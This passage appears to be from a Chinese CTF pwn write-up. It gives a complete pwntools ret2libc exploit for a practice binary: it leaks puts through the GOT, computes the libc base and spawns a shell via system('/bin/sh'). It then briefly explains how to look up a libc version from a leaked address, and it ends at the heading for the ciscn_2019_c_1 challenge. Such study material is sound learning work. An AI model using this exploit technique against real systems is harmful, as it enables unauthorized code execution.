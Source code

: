 ### EXP2

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4])
print("puts_addr: ", hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base))
sys_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'A'*104
payload2 += p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
gdb.attach(sh, 'b gets')
sh.sendline(payload2)
sh.interactive()
```



### LIBC版本查找

> 虽然说现在题基本上都有`libc.so`，但是以防万一还是给一个求libc版本的方法

[libc database search](https://libc.blukat.me/)

使用方法很简单，因为libc的低十二位不会变，所以给出已泄露的函数的地址，就可以在这里找到对应的libc.so版本及相关Offset

![image-20211214164955101](https://cdn.novanoir.moe/img/image-20211214164955101.png)

## ciscn_2019_c_1

[题目](https://buuoj.cn/challenges#ciscn_2019_c_1)
